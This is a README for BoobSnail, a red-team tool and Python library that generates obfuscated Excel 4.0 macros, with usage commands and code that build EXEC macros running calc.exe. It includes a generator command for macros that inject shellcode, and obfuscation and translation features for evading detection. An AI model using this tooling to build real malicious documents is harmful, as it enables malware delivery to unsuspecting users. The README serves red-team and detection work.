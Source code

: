 <p align="center">
  <img src="assets/boobsnail.png" width=300 height=300>
</p>

![License](https://img.shields.io/badge/license-MIT-lightgrey.svg)

Follow us on [Twitter](https://twitter.com/stm_cyber)!

# BoobSnail
BoobSnail allows generating XLM (Excel 4.0) macro. Its purpose is to support the RedTeam and BlueTeam in XLM macro generation.
Features:
- various infection techniques;
- various obfuscation techniques;  
- translation of formulas into languages other than English;
- can be used as a library - you can easily write your own generator.
 
## Building and Running
Tested on: Python 3.8.7rc1
```
pip install -r requirements.txt
python boobsnail.py
___.                ___.     _________             .__.__
\_ |__   ____   ____\_ |__  /   _____/ ____ _____  |__|  |
 | __ \ /  _ \ /  _ \| __ \ \_____  \ /    \__  \ |  |  |
 | \_\ (  <_> |  <_> ) \_\ \/        \   |  \/ __ \|  |  |__
 |___  /\____/ \____/|___  /_______  /___|  (____  /__|____/
     \/                  \/        \/     \/     \/
     Author: @_mzer0 @stm_cyber
     (...)
```
## Generators usage

```
python boobsnail.py <generator> -h
```

To display available generators type:
```
python boobsnail.py
```

### Examples
Generate obfuscated macro that injects x64 or x86 shellcode:
```
python boobsnail.py Excel4NtDonutGenerator --inputx86 <PATH_TO_SHELLCODE> --inputx64 <PATH_TO_SHELLCODE> --out boobsnail.csv
```

Generate obfuscated macro that runs calc.exe:
```
python boobsnail.py Excel4ExecGenerator --cmd "powershell.exe -c calc.exe" --out boobsnail.csv
```
### Saving output in Excel
1. Dump output to CSV file.
2. Copy content of CSV file.
3. Run Excel and create a new worksheet.
4. Add new Excel 4.0 Macro (right-click on Sheet1 -> Insert -> MS Excel 4.0 Macro).
5. Paste the content in cell A1 or R1C1.
6. Click Data -> Text to Columns.
7. Click Next -> Set Semicolon as separator and click Finish.

## Library usage
BoobSnail shares the excel4lib library that allows creating your own Excel4 macro generator.
excel4lib contains few classes that could be used during writing generator:
- excel4lib.macro.Excel4Macro - allows to defining Excel4 formulas, values variables;
- excel4lib.macro.obfuscator.Excel4Obfuscator - allows to obfuscate created instructions in Excel4Macro;
- excel4lib.lang.Excel4Translator - allows translating formulas to another language.

The main idea of this library is to represent Excel4 formulas, variables, formulas arguments, and values as python objects.
Thanks to that you are able to change instructions attributes such as formulas or variables names, values, addresses, etc. in an easy way.
For example, let's create a simple macro that runs calc.exe
```python
from excel4lib.macro import *
# Create macro object
macro = Excel4Macro("test.csv")
# Add variable called cmd with value "calc.exe" to the worksheet
cmd = macro.variable("cmd", "calc.exe")
# Add EXEC formula with argument cmd
macro.formula("EXEC", cmd)
# Dump to CSV
print(macro.to_csv())
```
Result:
```
cmd="calc.exe";
=EXEC(cmd);
```
Now let's say that you want to obfuscate your macro. To do this you just need to import obfuscator and pass it to the Excel4Macro object:
```python
from excel4lib.macro import *
from excel4lib.macro.obfuscator import *
# Create macro object
macro = Excel4Macro("test.csv", obfuscator=Excel4Obfuscator())
# Add variable called cmd with value "calc.exe" to the worksheet
cmd = macro.variable("cmd", "calc.exe")
# Add EXEC formula with argument cmd
macro.formula("EXEC", cmd)
# Dump to CSV
print(macro.to_csv())
```
For now excel4lib shares two obfuscation classes:
- excel4lib.macro.obfuscator.Excel4Obfuscator uses Excel 4.0 functions such as BITXOR, SUM, etc to obfuscate your macro;
- excel4lib.macro.obfuscator.Excel4Rc4Obfuscator uses RC4 encryption to obfusacte formulas.

As you can see you can write your own obfuscator class and use it in Excel4Macro.

Sometimes you will need to translate your macro to another language for example your native language, in my case it's Polish. With excel4lib it's pretty easy.
You just need to import Excel4Translator class and call set_language
```python
from excel4lib.macro import *
from excel4lib.lang.excel4_translator import *
# Change language
Excel4Translator.set_language("pl_PL")
# Create macro object
macro = Excel4Macro("test.csv", obfuscator=Excel4Obfuscator())
# Add variable called cmd with value "calc.exe" to the worksheet
cmd = macro.variable("cmd", "calc.exe")
# Add EXEC formula with argument cmd
macro.formula("EXEC", cmd)
# Dump to CSV
print(macro.to_csv())
```
Result:
```
cmd="calc.exe";
=URUCHOM.PROGRAM(cmd);
```
For now, only the English and Polish language is supported. If you want to use another language you need to add translations in the excel4lib/lang/langs directory.

For sure, you will need to create a formula that takes another formula as an argument. You can do this by using Excel4Macro.argument function.
```python
from excel4lib.macro import *
macro = Excel4Macro("test.csv")
# Add variable called cmd with value "calc" to the worksheet
cmd_1 = macro.variable("cmd", "calc")
# Add cell containing .exe as value
cmd_2 = macro.value(".exe")
# Create CONCATENATE formula that CONCATENATEs cmd_1 and cmd_2
exec_arg = macro.argument("CONCATENATE", cmd_1, cmd_2)
# Pass CONCATENATE call as argument to EXEC formula
macro.formula("EXEC", exec_arg)
# Dump to CSV
print(macro.to_csv())
```
Result:
```
cmd="calc";
.exe;
=EXEC(CONCATENATE(cmd,R2C1));
```
As you can see ".exe" string was passed to CONCATENATE formula as R2C1. 
R2C1 is address of ".exe" value (ROW number 2 and COLUMN number 1).
excel4lib returns references to formulas, values as addresses. References to variables are returned as their names.
You probably noted that Excel4Macro class adds formulas, variables, values to the worksheet automaticly in order
in which these objects are created and that the start address is R1C1.
What if you want to place formulas in another column or row?
You can do this by calling Excel4Macro.set_cords function.
```python
from excel4lib.macro import *
macro = Excel4Macro("test.csv")
# Column 1
# Add variable called cmd with value "calc" to the worksheet
cmd_1 = macro.variable("cmd", "calc")
# Add cell containing .exe as value
cmd_2 = macro.value(".exe")
# Column 2
# Change cords to columns 2
macro.set_cords(2,1)
exec_arg = macro.argument("CONCATENATE", cmd_1, cmd_2)
# Pass CONCATENATE call as argument to EXEC formula
exec_call = macro.formula("EXEC", exec_arg)
# Column 1
# Back to column 1. Change cords to column 1 and row 3
macro.set_cords(1,3)
# GOTO EXEC call
macro.goto(exec_call)
# Dump to CSV
print(macro.to_csv())
```
Result:
```
cmd="calc";=EXEC(CONCATENATE(cmd,R2C1));
.exe;;
=GOTO(R1C2);;
```

## Author
[mzer0](https://twitter.com/_mzer0) from [stm_cyber](https://twitter.com/stm_cyber) team!

## Articles
[The first step in Excel 4.0 for Red Team](https://blog.stmcyber.com/excel-4-0-for-red-team/)

[BoobSnail - Excel 4.0 macro generator](https://blog.stmcyber.com/boobsnail-excel-4-0-macro-generator/)

